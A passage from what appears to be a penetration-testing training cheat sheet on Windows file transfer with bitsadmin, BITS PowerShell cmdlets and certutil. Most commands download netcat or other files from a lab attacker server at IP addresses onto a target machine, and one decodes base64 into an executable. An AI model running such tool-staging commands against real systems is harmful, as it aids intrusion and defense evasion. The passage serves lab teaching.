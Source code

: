 
**⚠️ Note:** If you get an error when running certreq.exe, the version you are using may not contain the -Post parameter.

### Bitsadmin

**Description:** Background Intelligent Transfer Service (BITS) can download files from HTTP sites and SMB shares.

**Download File:**
```cmd
bitsadmin /transfer wcb /priority foreground http://10.10.15.66:8000/nc.exe C:\Users\htb-student\Desktop\nc.exe
```

**PowerShell BITS Transfer:**
```powershell
Import-Module bitstransfer
Start-BitsTransfer -Source "http://10.10.10.32:8000/nc.exe" -Destination "C:\Windows\Temp\nc.exe"
```

**Advanced BITS Usage:**
```powershell
# Download with credentials
Start-BitsTransfer -Source "http://10.10.10.32:8000/file.txt" -Destination "C:\temp\file.txt" -Credential (Get-Credential)

# Download through proxy
Start-BitsTransfer -Source "http://10.10.10.32:8000/file.txt" -Destination "C:\temp\file.txt" -ProxyUsage SystemDefault

# Resume interrupted transfer
Resume-BitsTransfer -Name "MyTransfer"
```

### Certutil

**Description:** Certificate utility that can download arbitrary files. Found by Casey Smith (@subTee).

**Download File:**
```cmd
certutil.exe -verifyctl -split -f http://10.10.10.32:8000/nc.exe
```

**Base64 Decode:**
```cmd
# Decode base64 file
certutil -decode encoded_file.txt decoded_file.exe
```

**URL Cache Download:**
```cmd
certutil.exe -urlcache -split -f http://10.10.10.32:8000/nc.exe nc.exe
```

**⚠️ Note:** The Antimalware Scan Interface (AMSI) currently detects this as malicious Certutil usage.
